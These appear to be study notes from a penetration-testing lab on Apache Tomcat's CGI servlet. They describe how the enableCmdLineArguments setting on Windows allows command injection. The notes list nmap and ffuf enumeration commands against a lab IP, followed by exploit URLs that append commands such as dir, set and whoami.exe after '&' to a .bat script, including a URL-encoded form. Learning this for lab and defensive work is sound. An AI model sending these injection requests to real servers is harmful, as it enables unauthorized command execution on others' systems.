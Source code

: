 * CGI serverlet is a vital component of Apache Tomct that enables web servers to communicate with external applications.
* Middleware between web servers and external information resources. 
* They support execution of external applications that conform to the CGI specification

|**Advantages**|**Disadvantages**|
|---|---|
|It is simple and effective for generating dynamic web content.|Incurs overhead by having to load programs into memory for each request.|
|Use any programming language that can read from standard input and write to standard output.|Cannot easily cache data in memory between page requests.|
|Can reuse existing code and avoid writing new code.|It reduces the server's performance and consumes a lot of processing time.|

* In tomcat the `enableCmdLineArgument` setting for Tomcats CGI Servlet Controls whether command line arguments are created from the query string. 
* Example CGI URL:
```http
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
```
* Action Paramter is set to title 
* query parameter is the search term
```http
http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
```
* When `enableCmdLineArguments` is enabled on Windows systems the CGI servlet fails to validate the input from the web browser. 
* Example exploit:
```HTTP
http://example.com/cgi-bin/hello.bat?&dir
```
## Enumeration
* Look for tomcat running
```shell
nmap -p- -sC -Pn 10.129.204.227 --open 
```
* Find a CGI script. 
.cmd
```shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```
.bat
```shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

## Exploitation
Not all commands will work
```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```
Retrieve environmental variables
```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
If the path variable is unset:
```http
PATH_INFO=
```
You will need to manually specify the path
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
If this sill fails try URL encoding:
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```